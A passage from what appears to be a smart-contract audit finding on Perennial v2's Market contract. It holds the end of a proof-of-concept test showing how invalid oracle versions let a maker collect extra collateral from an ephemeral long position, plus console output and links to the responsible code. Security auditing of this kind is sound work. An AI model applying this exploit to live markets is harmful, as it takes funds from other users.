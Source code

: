 ```solidity
    // reset to 0
    await market.connect(user).update(user.address, 0, 0, 0, 0, false)

    // oracleVersion4 commited
    oracle.status.returns([oracleVersion4, oracleVersion4.timestamp + 100])
    oracle.request.returns()

    // settle
    await market.connect(userB).update(userB.address, positionMaker, 0, 0, 0, false)

    const oracleVersion5 = {
        price: parse6decimal('90'),
        timestamp: TIMESTAMP + 400,
        valid: true,
    }
    oracle.at.whenCalledWith(oracleVersion5.timestamp).returns(oracleVersion5)
    oracle.status.returns([oracleVersion5, oracleVersion5.timestamp + 100])
    oracle.request.returns()

    // settle
    await market.connect(userB).update(userB.address, positionMaker, 0, 0, 0, false)
    await market.connect(user).update(user.address, 0, 0, 0, 0, false)

    var info = await market.locals(userB.address);
    console.log("collateral maker: " + info.collateral);
    var info = await market.locals(user.address);
    console.log("collateral long: " + info.collateral);
})
```

Console output for the code:
```solidity
collateral deposit maker: 100000000
collateral deposit long: 100000000
collateral maker: 110000028
collateral long: 100000000
```
Maker has a bit more than $110 in the end, because he also earns funding and interest during the short time when ephemeral long position is active (but user A doesn't pay these fees).

## Code Snippet

`_processPositionGlobal` invalidates position if oracle version is invalid for its timestamp:
https://github.com/sherlock-audit/2023-07-perennial/blob/main/perennial-v2/packages/perennial/contracts/Market.sol#L390-L393

`_processPositionLocal` does the same:
https://github.com/sherlock-audit/2023-07-perennial/blob/main/perennial-v2/packages/perennial/contracts/Market.sol#L430-L437

`_settle` loops over global and local positions until the latest oracle version timestamp. In this loop each position is invalidated to previous latest if it has invalid oracle timestamp. So if `_settle` is called after the invalid timestamp, previous latest is accumulated for it:
https://github.com/sherlock-audit/2023-07-perennial/blob/main/perennial-v2/packages/perennial/contracts/Market.sol#L333-L347
